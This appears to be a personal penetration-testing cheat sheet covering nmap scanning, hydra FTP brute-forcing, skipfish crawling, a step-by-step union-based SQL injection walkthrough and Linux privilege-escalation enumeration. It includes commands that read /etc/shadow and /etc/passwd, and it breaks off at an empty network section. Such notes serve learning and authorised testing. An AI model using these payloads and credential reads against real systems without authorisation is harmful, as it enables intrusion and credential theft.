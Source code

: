 ## nmap commands
- `nmap -sV -p <list of ports> <IP address>`: Lists all the services running on the ports

## hydra commands
- `hydra -C <username & password file> ftp://<IP address>`: Attempts to log in to the FTP service at the specified IP address using a list of username and password combinations provided in the file.

## skipfish commands
- `skipfish -o <Output file> <website url>`: Crawls the website to find all available directories
- `skipfish -o <Output file> -A <user>:<password> <website url>`: Crawls while logged in with HTML credentials

## SQL Injection
### SQL Injection in search fields
Lets say the search page is handled by a file named sql.php and the parameter is search.
Sql.php?search=pentesting  
First thing we try is to search with single quote '  
`Sql.php?search='`  
If it retruns an error, then we know its vulnerable.
Our next step is to determine the number of columns starting from running a normal query
on the search box to get an idea.  
Finding the number of columns:  
`Sql.php?search=test' order by 1-- -` [In the search field: `test' ORDER BY 1-- -`]  
or  
`Sql.php?search=test' order by 1--` [In the search field: `test' ORDER BY 1--`]  
We keep incrementing the number until we hit an error which indicates the number of columns.

Then we search for something similar to that below:  
`Sql.php?search=pentesting' union select 1,1,1,1,1,1#` [In the search field: `pentesting' UNION SELECT 1,1,1,1,1,1-- -`]  
or  
`Sql.php?search=pentesting' AND 1 = 0 UNION ALL SELECT 1,1,1,1,1,1 FROM information_schema.tables WHERE 1=0 OR 1=1-- `  
We continue adding '1's untill we don't receive any error from the page.
Only then we know how many columns by counting the '1's.

Then we try to find the database name, table names, columns of target table  
`Sql.php?search=pentesting' union select 1,database(),@@version,1,1,1#`  
or  
`Sql.php?search=pentesting' and 1 = 0 union all select 1,database(),@@version,1,1,1 from information_schema.tables where 1=0 OR 1=1-- -`  

`Sql.php?search=pentesting' union select 1,table_name,1,1,1,1 from information_schema.tables#` [In the search field: `pentesting' UNION SELECT 1,table_name,1,1 FROM information_schema.tables-- -`]

## Privilege escalation (Linux)
https://www.youtube.com/watch?v=ZTnwg3qCdVM
### System Enumeration
First get OS version, such that you can look for exploits of it and to be able to keep track of it  
`uname -a`  
Get info of the architecture, so you know vendor type, amount of cores and threads, etc. (good to know for some exploits)  
`lscpu`  
Check what services are running.  
`ps aux`  

### User Enumeration
To find out who we are, what permissions we have and what we are capable of doing.  
To check our username, what id´s everybody on the system has, and what sudo commands we can run, we use the following commands  
`whoami` `id` `sudo -l`  
We can check for other users  
`cat /etc/passwd | cut -d : -f 1`
We should look if we have access to any sensitive files, such as the shadow file
`cat /etc/shadow`  
Look at history is available, as in commands done by user  
`history`  

### Network Enumeration
